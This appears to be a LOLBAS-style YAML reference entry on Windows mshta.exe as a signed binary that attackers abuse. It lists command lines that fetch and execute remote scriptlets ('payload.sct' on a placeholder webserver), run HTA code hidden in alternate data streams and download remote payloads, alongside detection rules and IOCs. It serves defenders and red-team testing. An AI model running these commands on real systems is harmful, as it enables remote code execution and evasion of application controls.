 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https://webserver/payload.sct"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
  - Command: mshta.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/05c58b4892942c34bfa01e9ada88ef2663858e1c/rules/windows/process_creation/win_susp_mshta_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_invoke_obfuscation_via_use_mhsta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_lethalhta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_mshta_javascript.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/image_load/sysmon_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f8f643041a584621e66cf8e6d534ad3db92edc29/rules/windows/defense_evasion_mshta_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/lateral_movement_dcom_hta.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/stories/suspicious_mshta_activity.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_renamed.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_spawn.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_url_in_command_line.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: General usage of HTA file
  - IOC: msthta.exe network connection to Internet/WWW resource
  - IOC: DotNet CLR libraries loaded into mshta.exe
  - IOC: DotNet CLR Usage Log - mshta.exe.log
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

